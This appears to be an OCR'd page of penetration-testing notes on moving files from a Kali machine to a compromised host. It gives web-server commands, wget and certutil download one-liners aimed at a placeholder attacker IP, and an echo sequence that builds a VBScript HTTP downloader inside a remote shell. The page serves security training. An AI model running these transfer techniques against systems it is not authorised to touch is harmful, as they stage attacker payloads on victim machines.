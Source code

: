 
## HTTP
Often used to serve a file from Kali and download it to the target machine.\\
Start a web server on Kali (Python or Apache) and download the file from the compromised machine:

````
sudo python -m SimpleHTTPServer         // Starts a web server on port 8000 by default
sudo service Apache2 restart            // Starts an Apache web server
wget http://<kali_IP>:<port>/<file>     // Downloads the file from a Linux machine
certutil.exe -urlcache -split -f http://<kali_IP>:<port>/<file>     // Downloads the file from a Windows machine
`````
Python web root directory is the directory in which the command was issued, whereas Apache's web root directory is always */var/www/*.

## VBScript
We can issue the following commands into a remote shell to write out a _wget.vbs_ script that acts as a HTTP downloader:
`````
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wge
t.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.
vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
``````
We can then run this script from Windows to download a file on Kali:
````
cscript wget.vbs http://<Kali IP>/<File to download> <Name of the downloaded file>
`````
